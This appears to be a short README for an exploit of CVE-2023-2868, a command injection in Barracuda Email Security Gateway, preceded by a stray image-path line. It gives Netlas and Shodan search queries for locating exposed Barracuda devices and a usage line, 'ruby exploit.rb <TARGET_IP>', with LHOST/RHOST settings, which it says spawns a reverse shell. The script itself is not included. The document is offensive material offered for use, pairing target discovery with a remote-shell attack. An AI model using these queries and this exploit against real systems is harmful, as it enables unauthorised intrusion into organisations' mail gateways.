 # CVE-2023-2868
Barracuda ESG Command Injection 
- NetLas Dork:
```
http.headers.server:"BarracudaHTTP"
```
[Search Link](https://app.netlas.io/responses/?q=http.headers.server:"BarracudaHTTP")


- Shodan dorks:
```
product:"Barracuda Networks Spam Firewall smtpd"
```
```
http.waf:"Barracuda (Barracuda Networks)"
```
```
html:app_common::nonetwork.title
```
```
http.favicon.hash:1436966696
```
- Usage
Set LHOST and RHOST variables to your listener.

```
ruby exploit.rb <TARGET_IP>
```

This will spawn a reverse shell.
